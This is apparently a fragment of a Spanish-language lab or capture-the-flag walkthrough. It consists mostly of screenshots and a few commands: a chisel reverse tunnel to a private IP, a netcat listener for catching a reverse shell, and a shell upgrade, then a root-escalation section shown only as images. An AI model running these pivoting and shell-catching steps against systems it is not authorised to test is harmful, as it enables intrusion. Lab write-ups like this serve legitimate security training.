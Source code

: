 ```
chmod +x chisel
./chisel client 192.168.153.129 -p 1234

```
```
./chisel server --reverse -p 1234
lsof -i:9999
```

![](Captura%20de%20pantalla%20-2023-07-05%2014-21-58.png)
```

```
![](Captura%20de%20pantalla%20-2023-07-05%2014-42-58.png)

```
sudo nc -nlvp 443
```

![](Captura%20de%20pantalla%20-2023-07-05%2014-42-51.png)
```
script /dev/null -c bash
Ctrl+c
```
![](Captura%20de%20pantalla%20-2023-07-05%2014-45-50.png)
```

```
![](Captura%20de%20pantalla%20-2023-07-05%2014-48-27.png)

![](Captura%20de%20pantalla%20-2023-07-05%2014-49-28.png)

---
## Escalamiento a Root

![](Captura%20de%20pantalla%20-2023-07-05%2014-54-06.png)

![](Captura%20de%20pantalla%20-2023-07-05%2014-54-24.png)

![](Captura%20de%20pantalla%20-2023-07-05%2014-56-38.png)

![](Captura%20de%20pantalla%20-2023-07-05%2014-58-04.png)

![](Captura%20de%20pantalla%20-2023-07-05%2014-59-16.png)

